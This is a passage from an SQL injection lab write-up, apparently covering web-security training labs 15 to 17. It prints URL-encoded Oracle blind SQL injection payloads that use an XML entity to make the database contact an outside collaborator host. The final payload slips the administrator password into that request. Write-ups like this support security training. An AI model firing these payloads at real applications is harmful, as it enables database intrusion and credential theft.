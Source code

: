 ![](/assets/images/SQLi/Pasted%20image%2020251001005628.png)

Sorting the responses reveals the password.

![](/assets/images/SQLi/Pasted%20image%2020251001005840.png)

Logging in with the credentials solves the lab.

![](/assets/images/SQLi/Pasted%20image%2020251001005853.png)

### 16. Blind SQL injection with out-of-band interaction

Payload that worked:

```
UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//2dg3tlhq00xkk4hc76kbdxcm5db4zunj.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--+-
```

Explanation:

I have already written about Blind SQLi with out of band interaction. I used the payload from the SQLi cheatsheet to trigger a response to the collaborator. 

```
UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://2dg3tlhq00xkk4hc76kbdxcm5db4zunj.oastify.com/"> %remote;]>'),'/l') FROM dual-- -
```

The query is required to be URL encoded. Especially special characters like `=`, `?`, etc.

```
UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//2dg3tlhq00xkk4hc76kbdxcm5db4zunj.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--+-
```

We can send the request using repeater.

![](/assets/images/SQLi/Pasted%20image%2020251001144053.png)

We get a hit on the collaborator.

![](/assets/images/SQLi/Pasted%20image%2020251001144107.png)

The lab gets solved as soon as we see a response on the collaborator.

![](/assets/images/SQLi/Pasted%20image%2020251001144124.png)

### 17. Blind SQL injection with out-of-band data exfiltration

Payload that worked:

```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.ybdste9254tz2gpasecdygvolfr6fw3l.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--+-
```

